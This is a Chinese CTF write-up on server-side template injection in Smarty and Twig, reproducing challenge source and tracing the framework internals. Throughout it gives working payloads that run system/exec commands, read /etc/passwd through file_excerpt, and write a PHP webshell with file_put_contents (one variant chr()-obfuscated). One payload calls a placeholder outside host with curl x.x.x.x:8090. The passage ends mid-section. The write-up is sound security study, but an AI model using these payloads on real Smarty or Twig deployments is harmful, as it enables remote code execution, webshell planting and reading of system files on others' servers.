

[TOC]


# 0x01 Smarty SSTI

以[CISCN2019 华东南赛区]Web11 -- Smarty-SSTI学习 Smarty SSTI

buu上可以复现


源码

index.php

```php
<?php

require 'smarty/libs/Smarty.class.php';
$smarty = new Smarty;
$smarty->debugging = false;
$smarty->caching = false;
$smarty->assign('foo','value');
    if(isset($_SERVER)){    
        if(isset($_SERVER["HTTP_X_FORWARDED_FOR"])){
           $real_ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
        }elseif(isset($_SERVER["HTTP_CLIENT_IP"])) {
           $real_ip = $_SERVER['HTTP_CLIENT_IP'];
        }else{
            $real_ip = $_SERVER['REMOTE_ADDR'];
        }
    }else{
        if(getenv("HTTP_X_FORWARDED_FOR")){
              $real_ip = getenv( "HTTP_X_FORWARDED_FOR");
        }elseif(getenv("HTTP_CLIENT_IP")) {
              $real_ip = getenv("HTTP_CLIENT_IP");
        }else{
              $real_ip = getenv("REMOTE_ADDR");
        }
    }
$template_string = '<html lang="en"><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>A Simple IP Address API</title>
    <link rel="stylesheet" href="./css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div style="float:left;">
            <h1>IP</h1>
            <h2 class="hidden-xs hidden-sm">A Simple Public IP Address API</h2>
        </div>
		<div style="float:right;margin-top:30px;">Current IP:'.$real_ip.'		</div>
    </div>
    <div class="why row">
        <div class="col-xs-12">
            <h2>Why use?</h2>
            <div class="row">
                <div class="col-xs-offset-1 col-xs-10">
                    <p>
                        Do you need to get the public IP address ? Do you have the requirements to obtain the servers’ public IP address? Whatever the reason,sometimes a public IP address API are useful.
                    </p>
                    <p>
                        You should use this because:
                    </p><ul>
                    <li>You can initiate requests without any limit.</li>
                    
                    <li>Does not record the visitor information.</li>
                    
                    </ul>
                    <p></p>
                </div>
            </div>
        </div>
    </div>
    <div class="api row">
        <div class="col-xs-12">
            <h2>API Usage</h2>
            <div class="row">
                <div class="col-xs-offset-1 col-xs-11">
                    
                    <div class="table-responsive">
                        <table class="table table-striped table-bordered table-hover">
                            <thead>
                            <tr>
                                <td>-</td>
                                <td>API URI</td>
                                <td width="50px">Type</td>
                                <td>Sample Output</td>
                            </tr>
                            </thead>
                            <tbody>
                            <tr>
                                <td>get IP</td>
                                <td><code>http://'.$_SERVER['HTTP_HOST'].$_SERVER['REQUEST_URI'].'api</code></td>
                                <td><code>text/html</code></td>
                                <td><code>8.8.8.8</code></td>
                            </tr>
                            <tr>
                                <td>get XFF(X-Forwarded-For)</td>
                                <td><code>http://' .$_SERVER['HTTP_HOST'].$_SERVER['REQUEST_URI'].'xff</code></td>
                                <td><code>text/html</code></td>
                                <td><code>8.8.8.8</code></td>
                            </tr>
                            
                            
                            </tbody>
                        </table>
                    </div>
                    
                </div>
            </div>
        </div>
    </div>
    <div class="examples row">
        
    </div>
    <div class="row">
        <div class="col-xs-12">
            <h2 style="margin-bottom:0;">Connection</h2>
            <div class="row">
                <div class="col-xs-offset-1 col-xs-10">
                    <h3>Request-Header</h3>
                    <pre>GET / HTTP/2.0
Host: www.ip.la
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8
Cache-Control: max-age=0
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.131 Safari/537.36
</pre>
                </div>
            </div>
        </div>
    </div>
    <footer>
        <p style="text-align:center;font-size:14px;">Build With Smarty !</p>
    </footer>
</div>
</body></html>';

$smarty->display('string:'.$template_string); 

?>
```


可以看到字符串拼接进入了模板，所以存在SSTI


## 确定漏洞

1. 打开题目后发现右上方有个`Current IP:127.0.0.1`很明显这是我用xxf伪造的ip。猜测ssti。
2. 抓包，按照下图的判断可以知道是 Smarty 框架。
   [](https://pic.downk.cc/item/5ea647a0c2a9a83be5daa329.jpg)
3. 然后一般情况下输入{$smarty.version}就可以看到返回的smarty的版本号。该题目的Smarty版本是3.1.30


## 常用利用方式

### {php} 标签

Smarty支持使用{php}{/php}标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。但就该题目而言无效，因为3.1.30已废除这个{php}标签。

### {literal} 标签

 {literal}可以让块中间的内容忽略Smarty的解析。我们可以使用

```php
{literal}<script language="php">phpinfo();</script>{/literal}
```

但是php7已经不支持`<script language="php">`这种写法了。

### {if} 标签 （牛掰）

 每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用。
 也就是说我们把php代码写在`{if PHP代码}{/if}` 就可以了，PHP代码可以被执行。

## 题解 payload

我们使用如下payload 放再 xxf位置：

```php
{if system('cat /flag')}{/if}
##注意语句后面不需要分号。
```

可以得到flag：


## 其他 payload


{$data} //解析变量
{php}phpinfo();{/php} 解析php代码 大部分cms都会禁止掉这个标签
{123|md5} //把123md5加密
{:phpinfo()} //这种也是直接执行代码


TP5.0框架调用smarty的话我们可以构造payload

```php
{:file_put_contents(chr(119).chr(46).chr(112).chr(104).chr(112),chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(112).chr(104).chr(112).chr(105).chr(110).chr(102).chr(111).chr(40).chr(41).chr(59).chr(63).chr(62))} //这里生成在public目录下一个w.php 内容是phpinfo() 可以自行修改
```


# 0x02 Twig SSTI


官方文档：

https://twig.symfony.com/doc/1.x/deprecated.html


## 例题1 DSACTF

由一道CTF赛题分析Twig SSTI利用方式


在上周末刚刚结束的安恒6月赛DASCTF中，有一道web题涉及 Twig 模板注入，而两个月前的 volgactf 也涉及了同样的内容，但所使用的版本不同。本文通过CTF题的解法来分析 Twig 模板注入的利用方式


题目源码

```php
<?php
require_once "mail/smtp.class.php";
require_once "mail/smtp.send.php";
require_once "libs/common.func.php";
include 'vendor/twig/twig/lib/Twig/Autoloader.php';

function mailCheck($s) {
    if (preg_match('/\\\|\/|\~|&|\^|\`|\*|\?/i',$s))
    {
        alertMes('damn hacker!', './index.php');
        return false;
    }

    if (!preg_match('/libs|smtp|curl|dev|index\.php|ftp|backdoor|sh/i', $s) )
    {
        if (  preg_match_all('/@/', $s) === 1 )
        {
            $arr = explode('@',$s);
            $domain = end($arr);
            if (!preg_match('/[^a-z0-9._-]/i', $domain))
            {
                return true;
            }
        }
    }

    return false;
}

function alertMes($mes, $url)
{
    echo "<script>
            alert('{$mes}');
            location.href='{$url}';
    </script>";
    die;
}

$smtpEmailTo = $_POST['toemail'];

if (!mailCheck($smtpEmailTo))
{
    alertMes("hacker", "/index.php"); //die;
}

//为了减少邮件服务器压力，任何fuzz都请带上$_POST['test'] 请充分测试后再订阅并发邮件，如果检测到某个用户频繁无脑发邮件会被封禁。
if (isset($_POST['test']))
{
    user_are_fuzzing_and_smtp_server_wont_send_email();
    die;
}

//do not trick
Twig_Autoloader::register();
$loader = new Twig_Loader_String()
$twig = new Twig_Environment($loader);
$yourName = pos(explode( '@', $smtpEmailTo));
$content = @$twig->render($yourName);
$mailcontent = "<h1>Hello <font color=red>".$content."</font><br>Welcome to DASCTF June, Have FUN!</h1>";
$smtp = new Smtp($smtpserver, $smtpserverport, true, $smtpuser, $smtppass);
$smtp->debug = false;
$state = $smtp->sendmail($smtpEmailTo, $smtpusermail, $mailtitle, $mailContent, $mailtype);


/* flag is in flag.php */
```


首先我们分析本题目代码逻辑，由用户传入一个Email地址，服务器端从用户输入的Email地址中提取用户名传入Twig模板，渲染一封包含用户名的邮件发送至该Email地址。


利用点在提取用户名并渲染的逻辑中，我们可以看到 `$yourname` 是提取 `$smtpEmailTo` 中 @前面的值，既用户名，然后在 `$content = @$twig->render($yourName);` 中将用户名直接传入Twig 模板渲染执行。由于 `$yourName` 是由用户输入，完全可控。


然后我们看 `mailCheck` 函数中的过滤规则，两个if判断逻辑过滤了几种特殊符号和关键字，并没有过滤花括号{}和一些其他关键类名，所以我们可以构造形如 `{{7*7}}@yourmail.com` 的Email地址传入进行SSTI。


### payload分析

本题所用payload

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("a=cat;b=flag.php;$a $b")}}@yourmail.com
```

#### _self

_self在Twig框架中是一个特殊全局变量，会返回当前 `\Twig\Template` 实例，可以继续调用实例中的方法，相关代码位**src/Node/Expression/NameExpression.php**

```php
class NameExpression extends AbstractExpression
{
    protected $specialVars = [
        '_self' => '$this',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
    
    …………省略其他代码……………
```

注意因为本题目中使用Twig 1.x版本，所以此方法有效，在后续的2.x 和 3.x 版本中，这一变量只能返回当前实例名字符串

```php
class NameExpression extends AbstractExpression
{
    private $specialVars = [
        '_self' => '$this->getTemplateName()',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
    
    …………省略其他代码……………
```

官方文档https://twig.symfony.com/doc/1.x/deprecated.html#globals


#### registerUndefinedFilterCallback 和 getFilter

这两个函数都位于 **src/Environment.php**

```php
public function getFilter($name)
{
    if (!$this->extensionInitialized) {
        $this->initExtensions();
    }

    if (isset($this->filters[$name])) {
        return $this->filters[$name];
    }

    foreach ($this->filters as $pattern => $filter) {
        $pattern = str_replace('\\*', '(.*?)', preg_quote($pattern, '#'), $count);

        if ($count) {
            if (preg_match('#^'.$pattern.'$#', $name, $matches)) {
                array_shift($matches);
                $filter->setArguments($matches);

                return $filter;
            }
        }
    }

    foreach ($this->filterCallbacks as $callback) {
        if (false !== $filter = \call_user_func($callback, $name)) {
            return $filter;
        }
    }

    return false;
}

public function registerUndefinedFilterCallback($callable)
{
    $this->filterCallbacks[] = $callable;
}
```

registerUndefinedFilterCallback("exec") 将 exec 传入到全局数组 filterCallbacks[] 中，getFilter("a=cat;b=flag.php;\$a \$b") 将 "a=cat;b=flag.php;\$a \$b" 传入 $name


#### call_user_func

最终的命令执行点在`foreach`中的 `call_user_func`


`$callback `为数组中的值，此处为 `exec` ，所以此处 `call_user_func` 执行的是

```
call_user_func("exec", "a=cat;b=flag.php;$a $b")
```

达到了最终执行命令的目的

### 还要个邮件服务器

对于本CTF题，我们还需要通过该地址接收邮件才能看到回显的flag，而一般的邮件服务提供商基本不允许用户名中存在特殊符号，所以我们在vps上用python临时搭建一个邮件服务器，并将域名MX记录解析到vps上。这是一个python邮件服务器的简易脚本

``` python
from __future__ import print_function
from datetime import datetime
import asyncore
from smtpd import SMTPServer

class EmlServer(SMTPServer):
    no = 0
    def process_message(self, peer, mailfrom, rcpttos, data, mail_options=None,rcpt_options=None):
        filename = '%s-%d.eml' % (datetime.now().strftime('%Y%m%d%H%M%S'),
                self.no)
        f = open(filename, 'wb')
        print(data)
        f.write(data)
        f.close
        print('%s saved.' % filename)
        self.no += 1


def run():
    foo = EmlServer(('0.0.0.0', 25), None)
    try:
        asyncore.loop()
    except KeyboardInterrupt:
        pass


if __name__ == '__main__':
    run()
```


## 例题2 volgactf 2020

题目给了源码

```php
<?php
namespace App\Controller;

use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
use Symfony\Component\HttpFoundation\Response;
use Symfony\Component\HttpFoundation\Request;
use Symfony\Component\Mailer\MailerInterface;
use Symfony\Component\Mime\Email;

class MainController extends AbstractController
{
    public function index(Request $request)
    {
      return $this->render('main.twig');
    }

    public function subscribe(Request $request, MailerInterface $mailer)
    {
      $msg = '';
      $email = filter_var($request->request->get('email', ''), FILTER_VALIDATE_EMAIL);
      if($email !== FALSE) {
        $name = substr($email, 0, strpos($email, '@'));

        $content = $this->get('twig')->createTemplate(
          "<p>Hello ${name}.</p><p>Thank you for subscribing to our newsletter.</p><p>Regards, VolgaCTF Team</p>"
        )->render();

        $mail = (new Email())->from('newsletter@newsletter.q.2020.volgactf.ru')->to($email)->subject('VolgaCTF Newsletter')->html($content);
        $mailer->send($mail);

        $msg = 'Success';
      } else {
        $msg = 'Invalid email';
      }
      return $this->render('main.twig', ['msg' => $msg]);
    }


    public function source()
    {
        return new Response('<pre>'.htmlspecialchars(file_get_contents(__FILE__)).'</pre>');
    }
}
```

通过源码可以看到，传一个邮件地址，然后截取@前面的username，插入到模板，造成模板注入。


### 合法email

首先一个合法的email地址是什么样的？

一种方法就是去翻rfc

https://tools.ietf.org/html/rfc5321#section-4.5.3.1.1
[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133625-65a01f84-7248-1.png)

从上图可以看到local-part 可以是Quoted-string，双引号中间的内容QcontentSMTP，可以是\x32-\x126

也可以是32-126 的ascci 中间不能包含`"`（32） `\`(92).

那么我们就可以得出一个结论：合法的email地址可以是 `"` + 非双引号，非反斜杠 `"`

另一种方法是去翻php源码

https://github.com/php/php-src/blob/master/ext/filter/logical_filters.c#L647

```php
^(?!(?:(?:\x22?\x5C[\x00-\x7E]\x22?)|(?:\x22?[^\x5C\x22]\x22?)){255,})(?!(?:(?:\x22?\x5C[\x00-\x7E]\x22?)|(?:\x22?[^\x5C\x22]\x22?)){65,}@)(?:(?:[\x21\x23-\x27\x2A\x2B\x2D\x2F-\x39\x3D\x3F\x5E-\x7E]+)|(?:\x22(?:[\x01-\x08\x0B\x0C\x0E-\x1F\x21\x23-\x5B\x5D-\x7F]|(?:\x5C[\x00-\x7F]))*\x22))(?:\.(?:(?:[\x21\x23-\x27\x2A\x2B\x2D\x2F-\x39\x3D\x3F\x5E-\x7E]+)|(?:\x22(?:[\x01-\x08\x0B\x0C\x0E-\x1F\x21\x23-\x5B\x5D-\x7F]|(?:\x5C[\x00-\x7F]))*\x22)))*@(?:(?:(?!.*[^.]{64,})(?:(?:(?:xn--)?[a-z0-9]+(?:-+[a-z0-9]+)*\.){1,126}){1,}(?:(?:[a-z][a-z0-9]*)|(?:(?:xn--)[a-z0-9]+))(?:-+[a-z0-9]+)*)|(?:\[(?:(?:IPv6:(?:(?:[a-f0-9]{1,4}(?::[a-f0-9]{1,4}){7})|(?:(?!(?:.*[a-f0-9][:\]]){7,})(?:[a-f0-9]{1,4}(?::[a-f0-9]{1,4}){0,5})?::(?:[a-f0-9]{1,4}(?::[a-f0-9]{1,4}){0,5})?)))|(?:(?:IPv6:(?:(?:[a-f0-9]{1,4}(?::[a-f0-9]{1,4}){5}:)|(?:(?!(?:.*[a-f0-9]:){5,})(?:[a-f0-9]{1,4}(?::[a-f0-9]{1,4}){0,3})?::(?:[a-f0-9]{1,4}(?::[a-f0-9]{1,4}){0,3}:)?)))?(?:(?:25[0-5])|(?:2[0-4][0-9])|(?:1[0-9]{2})|(?:[1-9]?[0-9]))(?:\.(?:(?:25[0-5])|(?:2[0-4][0-9])|(?:1[0-9]{2})|(?:[1-9]?[0-9]))){3}))\]))$
```

好像不太好看懂！决定正面搞一下那个表达式

```
x(?!y)
```

> 仅仅当'x'后面不跟着'y'时匹配'x'，这被称为正向否定查找。
>
> 例如，仅仅当这个数字后面没有跟小数点的时候，/\d+(?!.)/ 匹配一个数字。正则表达式/\d+(?!.)/.exec("3.141")匹配‘141’而不是‘3.141’

```
(?:x)
```

> 匹配 'x' 但是不记住匹配项。这种括号叫作*非捕获括号*，使得你能够定义与正则表达式运算符一起使用的子表达式。看看这个例子 `/(?:foo){1,2}/`。如果表达式是 `/foo{1,2}/`，`{1,2}` 将只应用于 'foo' 的最后一个字符 'o'。如果使用非捕获括号，则 `{1,2}` 会应用于整个 'foo' 单词

找到了一个网站https://www.debuggex.com/ 可以进行可视化显示
[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133651-7548181a-7248-1.png)

意思是开头

- 不能超过255个第一个虚线框里面的字符
- 不能超过65个第二个虚线框里面的字符+@

手动测试一下，正常情况下最大程度是64

```php
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"@c.om
```

下面不行 不满足开头不是65+@的情况

```php
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"@c.om
```

但是可以通过`""."xxxxx"@x.com` 或者 `"xxxx".""@x.com` 来绕过64的限制
虽然php源码里判断了最大长度是320,由于255的限制我觉得@前最大长度也就是254.

测试发现总体最大的长度是258，`@c.c` 还需要四个

我们来验证一下
[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133712-81ca5ecc-7248-1.png)

除了上面的绕法之外还有一种绕过长度64的方法

```php
<?php

$f7 = urldecode("%7f");
$c5 = urldecode("%5c");

$email = '"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa".""@x.c';

$email = "\"${c5}${f7}aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\"@x.com";


var_dump(filter_var($email, FILTER_VALIDATE_EMAIL));
```

这样就能达到email地址最大程度320了。这里用下图所示的差异

[](https://xzfile.aliyuncs.com/media/upload/picture/20200330153439-ea209f76-7258-1.png)


### 邮箱服务器

到这里我们什么是合法的email地址的问题基本解决了，下一步是怎么回显？服务器会将渲染之后的模板发到邮箱里面，我们怎么才能看到呢？

1. 注册邮箱
   1. 大公司的邮箱不许有特殊字符，而且注册比较麻烦
   2. 临时邮箱也不支持全部的字符,有的设置不支持自定义用户名，https://temp-mail.org/en/ 这个临时邮箱支持自定义用户名
2. 自己搭建STMP服务器

```python
from __future__ import print_function
from datetime import datetime
import asyncore
from smtpd import SMTPServer

class EmlServer(SMTPServer):
    no = 0
    def process_message(self, peer, mailfrom, rcpttos, data, mail_options=None,rcpt_options=None):
        filename = '%s-%d.eml' % (datetime.now().strftime('%Y%m%d%H%M%S'),
                self.no)
        f = open(filename, 'wb')
        print(data)
        f.write(data)
        f.close
        print('%s saved.' % filename)
        self.no += 1


def run():
    foo = EmlServer(('0.0.0.0', 25), None)
    try:
        asyncore.loop()
    except KeyboardInterrupt:
        pass


if __name__ == '__main__':
    run()
```

然后再设置DNS mx解析到你vps的ip即可。


首先去找了文档，看有没有能够能执行php代码的标签，发现没有，然后又试了include 发现也不行。无意间发现了除了上面三个全局变量以外，在Symfony环境下还有个全局变量app，然后想以这个为突破口找到rce的链，但是由于菜，也没有找到。在我弃疗之后，队友通过symfony内置的filters，能够读任意文件，flag在/etc/passwd 里藏着，我猜可能出题人也没找到RCE的方法。今早看到了出题人的writeup，果然有大佬成功搞到了RCE，就是通过app这个方向搞下去的。


### 任意文件读取

除了twig自带的Filters, symfony 也自己实现了一些filters


twig symfony 文档：

https://twig.symfony.com/doc/2.x/


这次利用的对象就是`file_excerpt`
[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133746-95ac0f94-7248-1.png)


所以payload 可以是

```php
"{{ '/etc/passwd'|file_excerpt(-1,-1)}}"@xxxx.com
```


[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133805-a129fa52-7248-1.png)


看一下file_excerpt 的实现

[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133821-aa821ff8-7248-1.png)


如果有文件上传，结合上phar进行反序列化然后RCE也是有可能的。

### RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133845-b8e5385a-7248-1.png)

> The `app` variable (which is an instance of `AppVariable`) gives you access to these variables:
>
> - `app.user`
>
>   The [current user object](https://symfony.com/doc/current/security.html#create-user-class) or `null` if the user is not authenticated.
>
> - `app.request`
>
>   The `Request` object that stores the current [request data](https://symfony.com/doc/current/components/http_foundation.html#accessing-request-data) (depending on your application, this can be a [sub-request](https://symfony.com/doc/current/components/http_kernel.html#http-kernel-sub-requests) or a regular request).

`app.request` 是`Symfony\Component\HttpFoundation\Request` Object

他的query 和 request这些属性都是可以公开访问的, 而且都是`ParameterBag` 类型的
[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133900-c1d3ceea-7248-1.png)

`ParameterBag` 有个 filter方法

```php
public function filter(string $key, $default = null, int $filter = FILTER_DEFAULT, $options = [])
    {
        $value = $this->get($key, $default);

        // Always turn $options into an array - this allows filter_var option shortcuts.
        if (!\is_array($options) && $options) {
            $options = ['flags' => $options];
        }

        // Add a convenience check for arrays.
        if (\is_array($value) && !isset($options['flags'])) {
            $options['flags'] = FILTER_REQUIRE_ARRAY;
        }

        return filter_var($value, $filter, $options);
    }
public function get(string $key, $default = null)
    {
        return \array_key_exists($key, $this->parameters) ? $this->parameters[$key] : $default;
    }
$this-parameters` 会在query 初始化的时候赋值`$this->query = new ParameterBag($query);` 就是`$_GET
```

到这里`filter_var($value, $filter, $options)` 中的三个参数都能控制
[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133930-d3d5311a-7248-1.png)

`filter_var`可以设置个回调函数为system，`FILTER_CALLBACK` 的值为1024

> php > echo FILTER_CALLBACK;
> 1024
> php >

数组参数可以通过`{'key':'value'}`传递。

所以payload 可以这样构造

```php
"{{app.request.query.filter(0,'id',1024,{'options':'system'})}}"@sometimenaive.com
```

这样可以执行成功
[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133941-da3ceb10-7248-1.png)

但是

```php
"{{app.request.query.filter(0,'whoami',1024,{'options':'system'})}}".""@sometimenaive.com
```

上面的payload远程爆500，可能是发邮件的时候GG了。应该就是发邮件的时候有问题

```php
"{{app.request.query.filter(0,'curl${IFS}x.x.x.x:8090',1024,{'options':'system'})}}".""@sometimenaive.com
```

上面的payload虽然爆500但是还是可以接收到请求的。
[](https://xzfile.aliyuncs.com/media/upload/picture/20200330133956-e3569f70-7248-1.png)

上面是使用默认值给system传参数，也可以通过GET传参数的方式，这样就有回显了。

```http
POST /subscribe?0=whoami HTTP/1.1
Host: newsletter.q.2020.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: http://newsletter.q.2020.volgactf.ru
Connection: close
Referer: http://newsletter.q.2020.volgactf.ru/
Upgrade-Insecure-Requests: 1

email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@x.com
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20200330134010-ebc39884-7248-1.png)

当然用`app.request.request` 应该也是可以的。


## twig 1.x payload

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```


.x有三个全局变量

> The following variables are always available in templates:
>
> - `_self`: references the current template;
> - `_context`: references the current context;
> - `_charset`: references the current charset.

对应的代码是

```
protected $specialVars = [
        '_self' => '$this',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
```


2.x 及3.x 以后

> The following variables are always available in templates:
>
> - `_self`: references the current template name;
> - `_context`: references the current context;
> - `_charset`: references the current charset.

`_self` 不再是`$this` 而是template name 只是个String

```
private $specialVars = [
        '_self' => '$this->getTemplateName()',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
```


## twig 3.x with symfony ssti 

### 任意文件读取

除了twig自带的Filters, symfony 也自己实现了一些filters


twig symfony 文档：

https://twig.symfony.com/doc/2.x/


`{{'/etc/passwd'|file_excerpt(-1,-1)}}`


### RCE

`{{app.request.query.filter(0,'curl${IFS}x.x.x.x:8090',1024,{'options':'system'})}}`


## 全版本 通用 SSTI payload

### payloads

直接上结论，下面的payload在Twig 3.x 版本测试通过，看了1.x和2.x版本的代码，应该也是可以利用的。

- `{{["id"]|map("system")|join(",")`
- `{{["id", 0]|sort("system")|join(",")}}`
- `{{["id"]|filter("system")|join(",")}}`
- `{{[0, 0]|reduce("system", "id")|join(",")}}`
- `{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}`

### 分析

#### map

文档里面map的用法

[](https://xzfile.aliyuncs.com/media/upload/picture/20200331200906-6b7cf264-7348-1.png)

允许用户传一个arrow function， arrow function最后会变成一个`closure`

举个例子

```twig
{{["man"]|map((arg)=>"hello #{arg}")}}
```

会被编译成

```php
twig_array_map([0 => "id"], function ($__arg__) use ($context, $macros) { $context["arg"] = $__arg__; return ("hello " . ($context["arg"] ?? null))
```

`map` 对应的函数是`twig_array_map` ,下面是其实现

```php
function twig_array_map($array, $arrow)
{
    $r = [];
    foreach ($array as $k => $v) {
        $r[$k] = $arrow($v, $k);
    }

    return $r;
}
```

从上面的代码我们可以看到，$arrow 是可控的，可以不传arrow function，可以只传一个字符串。所以我们需要找个两个参数的能够命令执行的危险函数即可。通过查阅常见的命令执行函数：

- > system ( string `$command` [, int `&$return_var` ] ) : string

- > passthru ( string `$command` [, int `&$return_var` ] )

- > exec ( string `$command` [, array `&$output` [, int `&$return_var` ]] ) : string

- > popen ( string `$command` , string `$mode` )

- > shell_exec ( string `$cmd` ) : string

只要可以传两个参数的基本都可以，所以前四个都是可以用的。

思考一下如果上面的都被禁了，还有其他办法吗？

- > file_put_contents ( string `$filename` , [mixed](https://xz.aliyun.com/t/language.pseudo-types.html#language.types.mixed) `$data` [, int `$flags` = 0 [, resource `$context` ]] ) : int

通过`{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}` 写个shell 也是可以的。

当然了应该还有其他函数可以利用。

下面通过调试来看一下传arrow fucntion 和 直接传字符串会有什么不同。

`(arg)=>"hello #{arg}"` 会被解析成ArrowFunctionExpression，经过一些列处理会变成一个闭包函数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20200331200932-7aa4b54c-7348-1.png)

但是如果我们传的是 ``{{["id"]|map("passthru")}}` `passthru` 会被解析成 ConstanExpression

[](https://xzfile.aliyuncs.com/media/upload/picture/20200331200953-8792a048-7348-1.png)

`{{["id"]|map("passthru")}}` 最终会被编译成下面这样

```
twig_array_map([0 => "whoami"], "passthru")
```

按照这个思路，我们去找$arrow 参数的， 可以发现下面几个filter也是可以利用的

#### sort

```
function twig_sort_filter($array, $arrow = null)
{
    if ($array instanceof \Traversable) {
        $array = iterator_to_array($array);
    } elseif (!\is_array($array)) {
        throw new RuntimeError(sprintf('The sort filter only works with arrays or "Traversable", got "%s".', \gettype($array)));
    }

    if (null !== $arrow) {
        uasort($array, $arrow);
    } else {
        asort($array);
    }

    return $array;
}
```

> usort ( array `&$array` , [callable](https://xz.aliyun.com/t/language.types.callable.html) `$value_compare_func` ) : bool

[](https://xzfile.aliyuncs.com/media/upload/picture/20200331201021-98391224-7348-1.png)

所以我们可以构造

```twig
{{["id", 0]|sort("passthru")}}
```

#### filter

```php
function twig_array_filter($array, $arrow)
{
    if (\is_array($array)) {
        return array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH);
    }

    // the IteratorIterator wrapping is needed as some internal PHP classes are \Traversable but do not implement \Iterator
    return new \CallbackFilterIterator(new \IteratorIterator($array), $arrow);
}
```

> array_filter ( array `$array` [, [callable](https://xz.aliyun.com/t/language.types.callable.html) `$callback` [, int `$flag` = 0 ]] ) : array

只需要传一个参数即可

```twig
